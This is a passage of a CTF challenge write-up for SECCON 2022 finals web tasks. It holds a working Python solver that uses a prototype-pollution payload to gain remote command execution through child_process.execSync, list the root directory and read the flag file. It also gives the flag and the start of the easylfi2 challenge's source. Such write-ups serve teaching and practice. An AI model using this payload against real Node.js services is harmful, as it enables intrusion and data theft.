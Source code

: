 Got a RCE!

### Solver

```python
import os
import httpx

BASE_URL = f"http://{os.getenv('SECCON_HOST')}:{os.getenv('SECCON_PORT')}"


def evaluate(command: str) -> str:
    res = httpx.post(
        f"{BASE_URL}/calc",
        json={
            "expr": f'o = constructor; o.assign(__proto__, o.getOwnPropertyDescriptor(o.getPrototypeOf(toString), "constructor")); f = value("return global.process.mainModule.constructor._load(`child_process`).execSync(`{command}`).toString()"); f()'
        },
    )
    return res.text


files = evaluate("ls /").splitlines()
for file in files:
    if file.startswith("flag-"):
        print(evaluate(f"cat /{file}"))
```

### Flag

```
SECCON{pr0totyp3_po11ution_iS_my_friend}
```

## [web 200] easylfi2

- International: 10 solved / 10
- Domestic: 8 solved / 12
- https://github.com/arkark/seccon-ctf-2022-finals-web/tree/main/web/easylfi2

Description:

> [easylfi](https://github.com/SECCON/SECCON2022_online_CTF/tree/main/web/easylfi) again! I know you fully understand everything about curl.
>
> - `http://easylfi2.{int,dom}.seccon.games:3000`

### Overview

The server-side code is as follows:

```javascript
const app = new (require("koa"))();
const execFile = require("util").promisify(require("child_process").execFile);

const PORT = process.env.PORT ?? "3000";

// WAF
app.use(async (ctx, next) => {
  await next();
  if (JSON.stringify(ctx.body).match(/SECCON{\w+}/)) {
    ctx.body = "🤔";
  }
});

```

[^babybox-1]: Actually, I discovered the Prototype Pollution before I found this report. Although I don't like 0-day challenges in CTF, it's not 0-day in this case. Also, the part of "Prototype Pollution to RCE" is interesting for me. So I decided to create this challenge.
[^maas-1]: The CSP bypass is too complicated to explain. So, please try it with your hands :raised_hands:
[^light-note-1]: Firefox has recently added support for import maps at version 108 :tada:<br>ref. https://www.mozilla.org/en-US/firefox/108.0/releasenotes/
[^light-note-2]: However, we can construct nested forms by DOM manipulation in JavaScript.<br>E.g. `document.body.appendChild(document.createElement("form")).appendChild(document.createElement("form"))`<br>ref. https://html.spec.whatwg.org/#association-of-controls-and-forms
[^light-note-flag]: https://store.steampowered.com/app/381890/Induction
[^dark-note-flag]: https://store.steampowered.com/app/360740/Downwell